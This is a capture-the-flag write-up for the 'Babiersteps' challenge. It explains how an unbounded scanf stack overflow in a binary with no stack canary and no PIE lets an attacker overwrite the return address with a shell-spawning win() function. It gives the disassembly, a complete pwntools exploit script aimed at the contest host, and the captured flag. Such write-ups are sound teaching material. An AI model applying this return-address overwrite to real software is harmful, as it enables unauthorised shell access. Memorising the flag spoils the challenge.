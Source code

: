 # Babiersteps

## Challenge

We are given a simple binary that prints a message, then reads from stdin using `scanf()`.

```asm
┌ 55: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_70h @ rbp-0x70
│           0x004011ea      f30f1efa       endbr64
│           0x004011ee      55             push rbp
│           0x004011ef      4889e5         mov rbp, rsp
│           0x004011f2      4883ec70       sub rsp, 0x70
│           0x004011f6      488d3d130e00.  lea rdi, str.Everyone_has_heard_of_gets__but_have_you_heard_of_scanf_ ; 0x402010 ; "Everyone has heard of gets, but have you heard of scanf?" ; const char *s
│           0x004011fd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401202      488d4590       lea rax, [var_70h]
│           0x00401206      4889c6         mov rsi, rax
│           0x00401209      488d3d390e00.  lea rdi, [0x00402049]       ; "%s" ; const char *format
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e886feffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

The binary also contains a `win()` function which will spawn a shell.

```c
void sym.win(void)

{
    sym.imp.execve("/bin/sh", 0, 0);
    return;
}
```

## Solution

The program uses `scanf()` to read a string without checking for the length of the string.

There is no canary or PIE, so we can easily overflow the stack buffer and overwrite the return address.
If we change the return address to the address of the `win()` function, it will spawn a shell and we can read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenge.nahamcon.com --port 31951 babiersteps
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babiersteps')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenge.nahamcon.com'
port = int(args.PORT or 31951)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendlineafter(b"Everyone has heard of gets, but have you heard of scanf?\n", flat({ 0x70+8: exe.sym['win']}))

io.interactive()
```

## Flag

```
flag{4dc0a785da36bfcf0e597917b9144fd6}
```
